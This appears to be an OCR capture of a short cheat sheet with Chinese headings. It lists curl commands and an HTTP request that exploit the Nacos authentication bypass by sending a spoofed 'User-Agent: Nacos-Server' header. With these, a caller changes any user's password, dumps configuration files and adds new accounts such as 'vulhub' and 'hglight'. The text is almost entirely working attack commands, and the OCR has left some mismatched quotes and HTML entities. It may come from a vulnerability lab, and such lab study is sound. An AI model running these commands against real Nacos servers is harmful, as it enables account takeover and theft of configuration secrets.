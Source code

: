 ```
      

      
      

       
       任意用户密码更改
      
      

      
      

       
       curl -X PUT 'http://127.0.0.1:8848/nacos/v1/auth/users?accessToken=' -H 'User-Agent:Nacos-Server' -d 'username=test1&amp;newPassword=test2'
      
      

      
      

       
       读取配置文件
      
      

      
      

       
       curl -X GET 'http://127.0.0.1:8848/nacos/v1/cs/configs?search=accurate&amp;dataId=&amp;group=&amp;pageNo=1&amp;pageSize=99’
      
      

      
      

       
       curl -X GET 'http://127.0.0.1:8848/nacos/v1/cs/configs?search=blur&amp;dataId=&amp;group=&amp;pageNo=1&amp;pageSize=99’
      
      

      
      

       
       添加Header头后使用POST方式请求http://target:8848/nacos/v1/auth/users?username=vulhub&amp;password=vulhub添加一个新用户,账号密码都为vulhub
      
      

      
      

       
       POST 
       
       /nacos/v1/auth/users?username=hglight&amp;password=hglight 
       
       HTTP
```